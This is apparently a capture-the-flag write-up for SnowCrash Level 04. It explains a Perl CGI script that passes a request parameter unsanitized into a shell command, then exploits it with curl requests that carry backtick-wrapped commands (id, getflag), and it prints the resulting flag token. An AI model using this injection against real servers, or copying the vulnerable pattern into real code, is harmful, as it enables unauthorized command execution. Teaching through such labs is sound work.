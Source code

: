 # Level 04

Level 04 contains a simple perl script on the home folder:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

on the first line we can see that the script  runs on port `4747`, it takes a parameter `x` and passes it to the function `x` which executes it as a shell command, the output of the command is then printed to the screen. One look at the script we can instantly spot the vulnerability at this line

```perl
print `echo $y 2>&1`;
```

As it passes the parameter `x` directly to the shell without any sanitization, this means that we can execute arbitrary commands by passing them as the parameter `x`

```bash
level04@SnowCrash:~$ curl 'localhost:4747/?x=`id`'
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

and it works ! we can now use this vulnerability to get the token

```bash
level04@SnowCrash:~$ curl 'localhost:4747/?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```



